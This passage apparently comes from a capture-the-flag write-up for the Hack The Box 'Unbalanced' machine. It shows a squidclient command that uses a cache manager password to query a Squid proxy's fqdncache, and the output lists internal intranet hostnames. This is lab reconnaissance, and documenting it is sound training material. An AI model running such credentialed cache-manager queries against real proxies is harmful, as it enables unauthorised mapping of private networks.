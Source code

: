 * in [CacheManager](https://wiki.squid-cache.org/Features/CacheManager) documentation i found a tool [squidclient](https://wiki.squid-cache.org/SquidClientTool)__:__ *A command line utility for performing web requests. It also has a special ability to send cache manager requests to Squid proxies.*

# User Exploit

## [squidclient](https://linux.die.net/man/1/squidclient)

* from all specified actions in the config file i found some useful actions, [here](https://etutorials.org/Server+Administration/Squid.+The+definitive+guide/Chapter+14.+Monitoring+Squid/14.2+The+Cache+Manager/) is a good blog on CacheManager actions.

__Action :__ __[fqdncache](https://wiki.squid-cache.org/Features/CacheManager/FqdnCache) :__ This is a report of the Squid DNS cache for IP address resolution. this is same as iptable.

  `squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache`
```diff
    HTTP/1.1 200 OK
    Server: squid/4.6
    Mime-Version: 1.0
    Date: Sat, 21 Nov 2020 04:52:08 GMT
    Content-Type: text/plain;charset=utf-8
    Expires: Sat, 21 Nov 2020 04:52:08 GMT
    Last-Modified: Sat, 21 Nov 2020 04:52:08 GMT
    X-Cache: MISS from unbalanced
    X-Cache-Lookup: MISS from unbalanced:3128
    Via: 1.1 unbalanced (squid/4.6)
    Connection: close

    FQDN Cache Statistics:
    FQDNcache Entries In Use: 11
    FQDNcache Entries Cached: 10
    FQDNcache Requests: 19292
    FQDNcache Hits: 0
    FQDNcache Negative Hits: 8790
    FQDNcache Misses: 10502
    FQDN Cache Contents:

    Address                                       Flg TTL Cnt Hostnames
    10.10.14.3                                     N  -36278   0
    127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
    ::1                                             H -001   3 localhost ip6-localhost ip6-loopback
+   172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
+   172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
    127.0.0.1                                       H -001   1 localhost
+   172.17.0.1                                      H -001   1 intranet.unbalanced.htb
    ff02::1                                         H -001   1 ip6-allnodes
    ff02::2                                         H -001   1 ip6-allrouters
    10.10.15.75                                    N  -47928   0
```
